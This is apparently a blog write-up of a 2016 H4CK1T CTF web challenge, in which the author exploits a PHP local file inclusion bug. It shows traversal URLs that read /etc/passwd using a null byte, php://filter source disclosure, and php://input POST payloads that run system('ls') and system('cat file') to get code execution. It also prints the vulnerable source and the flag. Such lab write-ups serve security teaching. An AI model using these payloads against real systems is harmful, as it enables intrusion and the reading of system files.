 ```yaml
---
title: '[H4CK1T 2016] Pentest – Mexico Writeup'
author: Megabeets
type: post
date: 2016-10-02T20:54:26+00:00
url: /h4ck1t-2016-pentest-mexico/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: Remote pentest &#8211; Mexico &#8211; 150 &#8211; Web**
> 
> <span style="font-weight: 400;">Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !</span>  
> [<span style="font-weight: 400;">http://91.231.84.36:9150/</span>][1]

YAY! Web challenge! If you are following my blog <span style="font-size: 10pt;"><em>(If not, the subscribe form is on left)</em></span> you already know how much I love web challenges, It&#8217;s either easy points or great puzzle.

Let&#8217;s open the website and see what we have:

<img src="../uploads/h4ck1t_mexico1.png" /> 

WOW! JUSTICE LEAGUE! Did I mentioned that I love comic books and especially Batman? Oh, Not yet?

Well, this challenge is going to be awesome. No. It&#8217;s already awesome!

OK, deep breath. Let&#8217;s start. See that menu on the bottom? Let&#8217;s click on some link to see what will happen.

<img src="../uploads/h4ck1t_mexico2.png" /> 

Look at the URL, the &#8220;about&#8221; page is included by the &#8220;index.php&#8221; using php commands &#8216;require&#8217; or &#8216;include&#8217;. When we see something like that in a challenge we can check if the site is vulnerable to LFI attack. In Local File Inclusion attack we can include pages from the local server. Let&#8217;s try to include /etc/passwd to check for the existence of the vulnerability

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd

Didn&#8217;t work. Let&#8217;s try to add null byte at the end

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd%00

<img src="../uploads/h4ck1t_mexico3.png" /> 

It worked! We successfully got the /etc/passwd file. So what now? Let&#8217;s try to read the pure php file to see if the flag is in the php pages.

We can use php://filter to print the content of index.php in base64 format. We need to encode the content because we don&#8217;t want the php engine to compile the php parts of the code.

http://91.231.84.36:9150/index.php?page=php://filter/convert.base64-encode/resource=index

We got encoding page, now let&#8217;s decode it and see if we find a flag . I deleted some content to decrease the size of the code in the post.

```php
&lt;?php
    if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
        include($file);
    } 
    else
    {
        echo '    &lt;div class="container"&gt;
        &lt;div class="row"&gt;
            &lt;div class="col-md-6 col-sm-12"&gt;
                &lt;h1&gt;The Big Picture&lt;/h1&gt;
                &lt;p&gt;Welcome to the Big Picture. This fantastic digital resource combines the best of formal and informal learning. 
If you are already using The Big Picture, you can register for and access exclusive extra material from this platform. 
This is The Big Picture: have you experienced it yet?  &lt;/p&gt; 
            &lt;/div&gt;
        &lt;/div&gt;';
    }
    //flag{h@h@h@_man_n1ce_try} 

?&gt;
&lt;!DOCTYPE html&gt;
&lt;html class="full" lang="en"&gt;
&lt;head&gt;

...
...
...

    &lt;/div&gt;
    &lt;script src="js/jquery.js"&gt;&lt;/script&gt;
    &lt;script src="js/bootstrap.min.js"&gt;&lt;/script&gt;

&lt;/body&gt;

&lt;/html&gt;

```


&nbsp;

Nope. No flag. The &#8220;flag{&#8230;}&#8221; thing isn&#8217;t really the flag because the flag in this CTF should be in h4ck1t{&#8230;} format.  
Also the other pages like &#8216;about&#8217; and &#8216;contact&#8217; is not contain any flag. So we probably need to perform LFI to RCE (Remote Code Execution) attack. We can use the php://input method to send php commands through Post requests. Using Firefox Hackbar plugin we can do it easily.  
Put the URL to be http://91.231.84.36:9150/index.php?page=php://input  And the POST data to be

```default
&lt;?  system('ls') ;?&gt;
```


<img src="../uploads/h4ck1t_mexico4.png" /> 

Success. We got the RCE and we now know about a new secret file. Let&#8217;s read it using the same way but this time with

```php
 &lt;?  system('cat file') ;?&gt;
```


And we got the flag 🙂

`<strong>Flag: </strong><em>h4ck1t{g00d_rfi_its_y0ur_fl@g}</em>`

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://91.231.84.36:9150/